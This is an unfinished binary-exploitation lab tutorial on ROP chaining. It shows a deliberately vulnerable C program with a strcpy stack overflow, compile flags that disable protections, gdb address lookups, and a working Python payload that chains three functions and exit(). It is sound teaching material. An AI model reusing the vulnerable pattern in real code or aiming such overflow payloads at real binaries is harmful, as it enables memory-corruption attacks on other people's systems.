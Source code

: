 # ROP Chaining: Return Oriented Programming

The purpose of this lab is to familiarize with a binary exploitation technique called Return Oriented Programming \(ROP\) and ROP chains. The technique is used to bypass Data Execution Protection \(DEP\) and Address Space Layout Randomization \(ASLR\) protections.

{% hint style="info" %}
Work In Progress
{% endhint %}

## 1st ROP Chain

### Vulnerable Code

We wil exploit the following code in a program `rop1a` that is intentionally vulnerable with a classic stack-based overflow:

{% tabs %}
{% tab title="rop1a.c" %}
```c
#include <stdio.h>
#include <string.h>

void rop1() 
{
    printf("ROP 1!\n");
}

void rop2() {
    printf("ROP 2!\n");
}

void rop3() {
    printf("ROP 3!\n");
}

void vulnerable(char* string) 
{
    char buffer[100];
    strcpy(buffer, string);
}

int main(int argc, char** argv) 
{
    vulnerable(argv[1]);
    return 0;
}
```
{% endtab %}
{% endtabs %}

The above program start executing at `main()`, which calls `vulnerable()` and the program eventually returns.

### Objective

We're going to exploit the classic stack-based overflow vulnerability in the function `vulnerable` in the above code to trigger the functions `rop1()`, `rop2()` and `rop3()` sequentially, that are otherwise not called during the vulnerable program's runtime. After `rop3()` completes, we will make the program call the libc function `exit()`, so that it closes gracefully rather than with a crash.

{% hint style="info" %}
The sequence of called functions `rop1() --> rop2() --> rop3() --> exit()` form a chain, so naturally, this is where the term ROP chains comes from.
{% endhint %}

### Stack Layout

The key thing to understand with ROP chaining is the stack layout. In our case, we need the payload, that we send to the vulnerable program, to overflow the stack in such a way, that the exploited program calls our wanted functions in exactly this order:

1. `rop1()`
2. `rop2()`
3. `rop3()`
4. `exit()`

In other words, we need to ensure that the stack in the vulnerable program, when the vulnerable function is exploited, is organized like this:

![](../../../.gitbook/assets/image%20%28911%29.png)

If we think about the above graphic, we will realize that once the stack is overflowed, the following will happen:

1. the vulnerable function will return/jump to the `rop1()`;
2. once `rop1()` completes, it will execute the `ret` instruction, which will pop the `rop2()` function address off the stack and jump to it;
3. once `rop2()` completes, it will execute the `ret` instruction, which will pop the `rop3()` function address off the stack and jump to it;
4. once `rop3()` completes, it will execute the `ret` instruction, which will pop the `exit()` function address off the stack and jump to it;

We will later confirm this with gdb.

### Payload

Based on the above graphic, our payload should look something like this:

```text
payload = AAAAs... + BBBB + &rop1 + &rop2 + &rop3 + &exit
```

or... using the same colours as those seen in the above stack layout for easier cross-reference:

![](../../../.gitbook/assets/image%20%28908%29.png)

Let's find out the values we need to populate our payload with.

First of, compile our vulnerable program `rop1a`:

```text
gcc -m32 -fno-stack-protector -z execstack rop1a.c -o rop1a
```

Start debugging it with gdb and put a breakpoint on `main()` and continue execution:

```text
gdb rop1a
b main
c
```

Now, let's find out addresses for functions `rop1`, `rop2`, `rop3` and `exit`:

```csharp
gdb-peda$ p rop1
$1 = {<text variable, no debug info>} 0x565561a9 <rop1>

gdb-peda$ p rop2
$2 = {<text variable, no debug info>} 0x565561d4 <rop2>

gdb-peda$ p rop3
$3 = {<text variable, no debug info>} 0x565561ff <rop3>

gdb-peda$ p exit
$4 = {<text variable, no debug info>} 0xf7e02950 <exit>
```

![](../../../.gitbook/assets/image%20%28917%29.png)

Our payload now looks like this:

![](../../../.gitbook/assets/image%20%28920%29.png)

The last thing we need to know is how many AAAAs we need to send in before we can take over the EIP and overwrite the return address and point it to the `rop1`.

Below screenshot indicates that the offset of interest is 112 \(0x70\), or in other words, we need to send 112 A characters to smash the stack:

![](../../../.gitbook/assets/image%20%28919%29.png)

See below notes on how to find the offset at which we can overwrite the return address:

{% page-ref page="stack-based-buffer-overflow.md" %}

Knowing the offset, we can now now visualize the full payload like this:

![](../../../.gitbook/assets/image%20%28907%29.png)

We can now construct the full payload in python and send it to the vulnerable program like this:

```python
./rop1a "$(python -c 'print "A"*108 + "BBBB" + "\xa9\x61\x55\x56" + "\xd4\x61\x55\x56" + "\xff\x61\x55\x56" +  "\x50\x29\xe0\xf7"')"
```

If we execute it, we can see that our `rop1`, `rop2` and `rop3` functions are called successfully as they each call their `printf()` statements:

![](../../../.gitbook/assets/rop-chain-exploit.gif)

Note how the program did not crash. As a reminder - this is because `rop3` called `exit` upon return.

### Inspecting the Stack

## 2nd ROP Chain

## References

{% embed url="https://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html" %}

{% embed url="https://www.ret2rop.com/2018/08/return-to-libc.html" %}

{% embed url="https://medium.com/@codingkarma/rop-the-easy-way-7a3b28070bbf" %}

{% embed url="https://www.fuzzysecurity.com/tutorials/expDev/7.html" %}

{% embed url="https://bordplate.no/blog/en/post/interactive-rop-tutorial/" %}

{% embed url="https://ctf101.org/binary-exploitation/return-oriented-programming/" %}

{% embed url="https://tc.gts3.org/cs6265/2019/tut/tut06-01-rop.html" %}



